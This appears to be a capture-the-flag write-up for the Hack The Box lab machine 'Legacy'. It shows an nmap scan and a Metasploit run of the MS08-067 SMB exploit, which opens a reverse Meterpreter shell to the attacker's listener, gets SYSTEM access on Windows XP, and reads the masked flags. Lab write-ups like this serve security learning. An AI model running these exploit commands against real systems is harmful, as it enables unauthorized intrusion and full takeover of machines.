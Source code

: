 ```yaml
---
layout: post
title: Legacy(HTB)
categories:
  - Writeup
---
```

<br>OS Windows
<br>IP: 10.10.10.4
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -Pn 10.10.10.4

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-17 14:28 EST
<br>Nmap scan report for 10.10.10.4
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT     STATE  SERVICE       VERSION
<br><font color="BB69EC">139/tcp</font>  open   netbios-ssn   <font color="53E100">Microsoft Windows netbios-ssn</font>
<br><font color="BB69EC">445/tcp</font>  open   microsoft-ds  <font color="53E100">Microsoft Windows XP microsoft-ds</font>
<br><font color="BB69EC">3389/tcp</font> closed ms-wbt-server
<br>Service Info: OSs: Windows, <font color="53E100">Windows XP</font>; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

<br>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.53 seconds</p>
</div>
</font>

<br>**Vulnerabilty**:- The Target machine is running _**SMB**_ service on a windows XP machine so we can use the netapi exploit which is avaialbe on metsaploit.

<br>**Vulnerabilty Description**:- This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on some operating systems and service packs. The correct target must be used to prevent the Server Service (along with a dozen others in the same process) from crashing. Windows XP targets seem to handle multiple successful exploitation events, but 2003 targets will often crash or hang on subsequent attempts. This is just the first version of this module, full support for NX bypass on 2003, along with other platforms, is still in development.

<br>**Exploit**:- [MS08-067 Microsoft Server Service Relative Path Stack Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/smb/ms08_067_netapi
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > set RHOST 10.10.10.4
<br>RHOST => 10.10.10.4
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.14.14:4444 
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Automatically detecting the target...
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Attempting to trigger the vulnerability...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.4
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (<font color="53E100">10.10.14.14:4444 -> 10.10.10.4:1029</font>) at 2017-12-17 15:45:50 -0500

<br>meterpreter > getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter > shell
<br>Process 624 created.
<br>Channel 1 created.
<br>Microsoft Windows XP [Version 5.1.2600]
<br>(C) Copyright 1985-2001 Microsoft Corp.

<br><font color="BB69EC">C:\WINDOWS\system32></font></p>
</div>
</font>
<br>Using this exploit we got the _System Level Privilege_

<br>**Flags**:-
<font size="1">
<div style="height:150px;width:400px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<br><font color="BB69EC">C:\Documents and Settings\john\Desktop></font>type user.txt</p>
<br><font color="53E100">**********************</font>
<br><font color="BB69EC">C:\Documents and Settings\Administrator\Desktop></font>type root.txt
<br><font color="53E100">**********************</font>
</div>
</font>

